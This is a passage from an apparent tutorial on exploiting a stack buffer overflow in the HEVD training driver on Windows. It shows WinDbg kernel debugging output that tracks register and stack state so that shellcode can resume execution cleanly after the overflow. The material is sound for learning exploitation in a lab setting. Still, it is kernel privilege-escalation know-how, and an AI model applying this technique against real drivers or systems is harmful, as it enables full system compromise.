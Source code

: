 As can be seen in the above snippet, this code is calling `IofCompleteRequest(rbp, 0)`, restoring the value of [non-volatile registers](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170#callercallee-saved-registers) and returning whatever is stored in `esi`.
This is useful for us, since in order to return from our shellcode we can increment `rsp` to point to the stack frame of this function, jump to this code, and allow the program to keep running.
There is a catch, though.
We don't know the location of this piece of code, and `rbp` must point to the `Irp` object.

Let's try break at the beginning of `DispatchDeviceControl` and at the beginning of our shellcode again, and see whether we can find the data we need to reconstruct a valid state:

```
Breakpoint 0 hit
HEVD+0x85074:
fffff804`20215074 488bc4          mov     rax,rsp
5: kd> r rdx
rdx=ffffaf85ac0da4a0
5: kd> t
HEVD+0x85077:
fffff804`20215077 48895808        mov     qword ptr [rax+8],rbx
5: kd> 
HEVD+0x8507b:
fffff804`2021507b 48896810        mov     qword ptr [rax+10h],rbp
5: kd> 
HEVD+0x8507f:
fffff804`2021507f 48897018        mov     qword ptr [rax+18h],rsi
5: kd> 
HEVD+0x85083:
fffff804`20215083 48897820        mov     qword ptr [rax+20h],rdi
5: kd> 
HEVD+0x85087:
fffff804`20215087 4156            push    r14
5: kd> 
HEVD+0x85089:
fffff804`20215089 4883ec20        sub     rsp,20h
5: kd> 
HEVD+0x8508d:
fffff804`2021508d 4c8bb2b8000000  mov     r14,qword ptr [rdx+0B8h]
5: kd> dq rsp La
ffffe98b`8a5b7780  00000000`00000010 00000000`00040344
ffffe98b`8a5b7790  ffffe98b`8a5b77a0 00000000`00000018
ffffe98b`8a5b77a0  00000000`00000001 fffff803`07a4a295
ffffe98b`8a5b77b0  00000000`00000002 ffffaf85`b1d050c0
ffffe98b`8a5b77c0  00000000`00000000 ffffaf85`ac0da4a0
5: kd> g
```

Ok, so `Irp` is stored at address `ffffaf85ac0da4a0`, and `rsp` points to `ffffe98b8a5b7780` throughout the function.
Let's see if we can retrieve this data from our buffer:

```
****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ******
[+] UserBuffer: 0x000000910AD9EBF0
[+] UserBuffer Size: 0x828
[+] KernelBuffer: 0xFFFFE98B8A5B6F30
[+] KernelBuffer Size: 0x800
[+] Triggering Buffer Overflow in Stack
Break instruction exception - code 80000003 (first chance)
ffffaf85`a6903000 cc              int     3
5: kd> r
rax=0000000000000000 rbx=ffffaf85a6903000 rcx=ffffe98b8a5b7750
rdx=00001705807e7cc0 rsi=00000000c00000bb rdi=000000000000004d
rip=ffffaf85a6903000 rsp=ffffe98b8a5b7750 rbp=ffffaf85ac0da4a0
 r8=0000000000000008  r9=0000000000000000 r10=0000000000000000
r11=ffffe98b8a5b7730 r12=ffffaf85a6903000 r13=ffffaf85b0633ac0
```